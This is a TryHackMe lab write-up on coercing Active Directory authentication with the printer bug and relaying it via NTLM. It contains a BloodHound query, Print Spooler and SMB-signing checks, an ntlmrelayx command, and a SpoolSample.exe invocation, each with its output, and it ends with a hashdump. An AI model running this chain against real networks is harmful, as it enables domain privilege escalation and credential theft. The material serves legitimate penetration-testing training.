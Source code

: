 # Exploiting automated relays

We can force a computer account to initiate an authentication request. Computer accounts – like user accounts – have 
a username and password. Computer account usernames end in `$` – for example, `server01$`.

## Machine accounts

Use a custom Bloodhound query to find computer accounts that have admin rights over other computer accounts:

    MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p

| ![THM Bloodhound](../../_static/images/exploit-ad-bloodhound2.png)
|:--:|
| This query will attempt to find instances where a computer has the "AdminTo" relationship over <br>another computer. |

## The Printer Bug

The printer bug feature allows a domain user to force a computer account to connect to an arbitrary IP address. In 
order for this to work, the following must be true:
* Possess a valid set of AD credentials
* Target host is running SMB
* Target host is running Print Spooler service
* SMB signing must not be enforced

Condition 1 and 2 have been met already.

### Verify the Print Spooler service is running

```text
PS C:\Users\t2_alan.riley> Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc

Name                 ComputerName         Description          PortMonitor
----                 ------------         -----------          -----------
COM1:                thmserver2.za.try... Local Port           Local Monitor
COM2:                thmserver2.za.try... Local Port           Local Monitor
COM3:                thmserver2.za.try... Local Port           Local Monitor
COM4:                thmserver2.za.try... Local Port           Local Monitor
FILE:                thmserver2.za.try... Local Port           Local Monitor
LPT1:                thmserver2.za.try... Local Port           Local Monitor
LPT2:                thmserver2.za.try... Local Port           Local Monitor
LPT3:                thmserver2.za.try... Local Port           Local Monitor
PORTPROMPT:          thmserver2.za.try... Local Port           Local Monitor
```

### Verify SMB signing enforcement

```text
$ sudo nmap -Pn -p445 --script=smb2-security-mode thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc
[sudo] password for nina: 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-07 18:24 GMT
Nmap scan report for thmserver1.za.tryhackme.loc (10.200.60.201)
Host is up (0.080s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Nmap scan report for thmserver2.za.tryhackme.loc (10.200.60.202)
Host is up (0.041s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Nmap done: 2 IP addresses (2 hosts up) scanned in 2.85 seconds

$ dig thmserver1.za.tryhackme.loc

; <<>> DiG 9.18.7-1-Debian <<>> thmserver1.za.tryhackme.loc
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 14249
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;thmserver1.za.tryhackme.loc.	IN	A

;; ANSWER SECTION:
thmserver1.za.tryhackme.loc. 3600 IN	A	10.200.60.201

;; Query time: 68 msec
;; SERVER: 10.200.60.101#53(10.200.60.101) (UDP)
;; WHEN: Mon Nov 07 18:26:01 GMT 2022
;; MSG SIZE  rcvd: 72
```

## Exploit authentication relay

* Use `NTLM` authentication against the target – `THMSERVER1`
* `THMSERVER2` has administrative privileges over `THMSERVER1`
* Use `SpoolSample.exe` to connect to `THMSERVER2` and tell it to authenticate back to us
* Relay that authentication request to `THMSERVER1`
* `THMSERVER1` will see it as though we are connecting as `THMSERVER2`, which will give us administrative privileges

Set up the NTLM relay:

```text
$ python3 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"10.200.60.201" -debug
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/local/lib/python3.10/dist-packages/impacket-0.10.1.dev1+20220720.103933.3c6713e3-py3.10.egg/impacket
...
[*] Servers started, waiting for connections
```

Get IP address attack machine on the THM network:

```text
$ ifconfig                                               
...
exploitingad: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.50.57.175  netmask 255.255.255.0  destination 10.50.57.175
        inet6 fe80::712c:cfa0:413f:458f  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 53151  bytes 19626273 (18.7 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 61363  bytes 4371437 (4.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
...
```

On `THMWRK1`, exploit:

```text
PS C:\Users\t2_alan.riley> C:\Tools\SpoolSample.exe thmserver2.za.tryhackmloc "10.50.57.175"
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\thmserver2.za.tryhackmloc, CaptureServer: \\10.50.57.175
```

A hashdump.